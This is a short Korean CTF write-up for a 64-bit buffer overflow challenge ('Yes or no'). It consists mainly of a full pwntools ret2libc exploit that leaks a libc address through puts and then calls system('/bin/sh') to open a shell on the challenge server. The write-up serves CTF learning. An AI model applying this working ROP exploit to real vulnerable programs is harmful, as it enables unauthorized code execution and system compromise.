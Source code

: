 # Yes or no

64bit 환경에서의 BOF 문제이다.      
<br/>

![](1.PNG)    
gets 함수 부분에서 BOF 취약점이 발생하며, 올바른 값을 입력해야만 get함수 부분으로 진행할 수 있다.   
<br/>

![](2.PNG)   
![](3.PNG)   
올바른 값을 찾기 위해 gdb로 cmp 하기 전에 break를 걸고, eax값을 확인해서 값을 알아낸다.   
<br/>


이후에는 평범한 64bit ROP를 이용하면 된다.   
```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3009)

e = ELF('./yes_or_no')
libc = ELF('./libc-2.27.so')

gadget = 0x00400883
ret = 0x000000000040056e

system_offset = libc.symbols['system']

puts_plt = e.plt['puts']
puts_got = e.got['puts']

main = e.symbols['main']

p.recvline()
p.sendline('9830400')

payload = ''
payload += 'A'*0x12 + 'B'*8

# leak
payload += p64(gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

# calc address
p.recvline()
p.sendline(payload)

puts_addr = p.recv(6)
puts_addr += '\x00\x00'
puts_addr = u64(puts_addr)

libc_addr = puts_addr - libc.symbols['puts']
system_addr = libc_addr + libc.symbols['system']

binsh = libc_addr + 0x1b3e9a

# exploit
payload2 = ''
payload2 += 'A'*0x12 + 'B'*8
payload2 += p64(gadget)
payload2 += p64(binsh)
payload2 += p64(ret)
payload2 += p64(system_addr)

p.recvuntil('number~!\n')
p.sendline('9830400')

p.recvuntil('Follow me\n')
p.sendline(payload2)

sleep(0.2)
p.interactive()
```

